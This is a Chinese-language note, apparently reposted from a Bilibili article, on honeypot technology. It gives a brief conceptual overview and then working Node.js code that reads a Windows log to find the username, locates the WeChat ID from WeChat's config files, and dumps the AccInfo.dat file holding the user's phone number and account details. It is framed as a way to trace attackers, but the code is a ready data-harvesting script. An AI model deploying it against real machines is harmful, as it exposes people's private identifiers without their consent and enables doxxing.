 ```yaml
---
date: 2023-05-08 09:06
updated: 2023-05-13 22:56
---
```

# 蜜罐技术

首先，我们先讲一下蜜罐的概念，你可以简单理解较为蜜罐就是一个陷阱，故意暴露一些我们人为设计好的漏洞，让攻击者自投罗网。



## 一、蜜罐介绍
蜜罐是对攻击者的欺骗技术，用以监视、检测、分析和溯源攻击行为，其没有业务上的用途，所有流入/流出蜜罐的流量都预示着扫描或者攻击行为，因此可以比较好的聚焦于攻击流量。

蜜罐可以实现对攻击者的主动诱捕，能够详细地记录攻击者攻击过程中的许多痕迹，可以收集到大量有价值的数据，如病毒或蠕虫的源码、黑客的操作等，从而便于提供丰富的溯源数据。另外蜜罐也可以消耗攻击者的时间，基于JSONP等方式来获取攻击者的画像。

但是蜜罐存在安全隐患，如果没有做好隔离，可能成为新的攻击源。

## 二、蜜罐技术获取手机号、微信号、地址

1.读取 PFRO日志文件（这个文件是存放ISA监控日志的信息）

![](./images/image-2023-01-25_22-33-46-528-04-蜜罐技术.png)


通过这个文件可以读取系统的用户名 


Nodejs 代码

```js
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

})
```
2.通过用户名读取wxid

```ts
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
```
3.最后通过微信ID 读取你的微信信息（手机号，微信号，等）

## 完整代码

```js
import fs from 'fs';
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
//读取信息
const getData = <T>(path: T, wxId: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`).toString('utf-8')
    return data

}
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

}) 作者：小满zs https://www.bilibili.com/read/cv16944860?spm_id_from=333.999.0.0 出处：bilibili
```